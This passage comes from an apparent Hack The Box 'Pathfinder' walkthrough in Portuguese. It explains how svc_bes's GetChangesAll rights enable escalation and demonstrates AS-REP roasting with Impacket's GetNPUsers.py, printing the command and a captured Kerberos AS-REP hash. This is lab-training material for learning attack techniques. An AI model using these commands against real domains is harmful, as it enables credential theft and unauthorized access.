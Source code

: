 <img src="/htb/htb-pathfinder-4.png">

Podemos ver que o usuário `svc_bes` se liga diretamente ao DC e tem privilégios `GetChangesAll`. Isso significa que este usuário tem privilégios de solicitar informações sensíveis do DC, inclusive hashes de senhas.

### Escalação de privilégios horizontal

Podemos fazer uma tentativa de PrivEsc Horizontal, ao tentar acesso com o usuário `svc_bes`, para tanto, precisamos checar se a pré-autenticação do Kerberos está desabilitada para esta conta. Se sim, o DC está vulnerável a [ASREPRoasting](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/).

Vamos utilizar o `GetNPUsers.py` para verificar.

```
┌──(hastur㉿hastur)-[~/Pathfinder]
└─$ python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py megacorp.local/svc_bes -request -no-pass -dc-ip 10.10.10.30
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc_bes
$krb5asrep$23$svc_bes@MEGACORP.LOCAL:73e00be48dcb9672655c008a25665eda$2e43937963ba72aeda130ab7f779f22a9bd1c5526fe6f70ae93c30beeb9266ef5a55c258b0bdca4f86706866d14f0fdff126ca6100e97e7873399243fab54231776f227db65352acec98a8b37fee5e33f1cba334254e60d724cef56a5d481db3fb5e3060274237748dc7bae98b5b1dbdc1a3e6512f9437d4e244ade19d8da1aef42b5a718696f5c4caafc779092d6b7bd03671083569feb0b8789fe16b27afe53afdfc417a347c8db69738c5593ec54f5c2d2e2d86d9fab115475a474940a5edc2876b22b13fe1e60b6642ca01c0830cd11222b0d0292ab62a8bd97732ab04f9778763e1a80ee18267f6914a1580a774
```
Conseguimos um `TGT ticket` para o usuário svc_bes!!!
